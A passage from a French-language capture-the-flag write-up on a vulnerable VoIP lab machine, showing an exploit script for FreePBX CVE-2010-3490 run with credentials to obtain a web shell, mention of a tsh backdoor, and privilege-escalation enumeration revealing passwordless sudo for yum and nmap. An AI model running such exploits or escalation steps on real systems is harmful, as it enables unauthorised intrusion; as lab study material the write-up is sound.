 L'upload passe correctement :  

```plain
$ python sploit.py 
devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)
Usage: {0} <url_to_freepbx_admin_directory> <username> <password>
$ python sploit.py http://192.168.1.67/admin/ support securesupport123
devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)
[+] Connection successful
[i] Testing shell at address http://192.168.1.67/admin/devloop-ivrrecording.php
HTTP 200 OK
Linux vulnvoip.localdomain 2.6.18-308.16.1.el5 #1 SMP Tue Oct 2 22:01:37 EDT 2012 i686 i686 i386 GNU/Linux
```

Les scripts PHP tournent avec les droits d'*asterisk* (*uid=101(asterisk) gid=103(asterisk) groups=103(asterisk)*)  

Après la mise en place d'un serveur *tsh* je remarque qu'il n'y a pas d'utilisateurs sur le système (pas de dossiers dans */home*).  

The way to root
---------------

On trouve un fichier appartenant à root et word-writable qui semble d'aucune utilité :  

```plain
bash-3.2$ find / -user root -perm -o+w -type f 2> /dev/null  | grep -v /proc
/var/spool/asterisk/voicemail/default/2000/INBOX/msg0001.txt
bash-3.2$ cat /var/spool/asterisk/voicemail/default/2000/INBOX/msg0001.txt
;
; Message Information file
;
[message]
origmailbox=2000
context=macro-vm
macrocontext=from-internal
exten=s-CHANUNAVAIL
priority=2
callerchan=Local/2000@from-internal-ba5d;2
callerid=VMAIL/2000
origdate=Mon Sep 29 08:22:29 PM UTC 2014
origtime=1412022149
category=
flag=
duration=1
```

Par contre les permissions *sudo* sont visiblement à approfondir :  

```plain
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

Runas and Command-specific defaults for asterisk:

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /usr/bin/nmap
```
